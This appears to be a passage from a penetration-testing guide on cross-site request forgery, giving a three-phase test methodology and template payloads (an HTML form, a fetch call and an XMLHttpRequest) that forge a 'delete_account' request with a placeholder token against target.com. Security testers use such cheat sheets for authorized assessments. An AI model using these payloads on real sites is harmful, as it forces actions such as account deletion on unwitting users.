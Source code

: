 ### Phase 1: Reconnaissance
1. Identify CSRF-protected endpoints
2. Map CSRF protection mechanisms
3. Identify token generation patterns
4. Map session management

### Phase 2: Vulnerability Assessment
1. Test basic CSRF bypass techniques
2. Test token-based bypass
3. Test header-based bypass
4. Test advanced techniques

### Phase 3: Exploitation
1. Attempt CSRF attacks
2. Document findings
3. Test impact and scope
4. Report vulnerabilities

---

## Common Payloads

### HTML Form Payloads
```html
<form action="https://target.com/sensitive-action" method="POST">
  <input type="hidden" name="csrf_token" value="bypassed_token">
  <input type="hidden" name="action" value="delete_account">
  <input type="submit" value="Click me">
</form>
```

### JavaScript Payloads
```javascript
fetch('/sensitive-action', {
  method: 'POST',
  headers: {
    'Content-Type': 'application/x-www-form-urlencoded',
    'X-CSRF-Token': 'bypassed_token'
  },
  body: 'action=delete_account'
});
```

### XMLHttpRequest Payloads
```javascript
var xhr = new XMLHttpRequest();
xhr.open('POST', '/sensitive-action', true);
xhr.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
xhr.setRequestHeader('X-CSRF-Token', 'bypassed_token');
xhr.send('action=delete_account');
```

---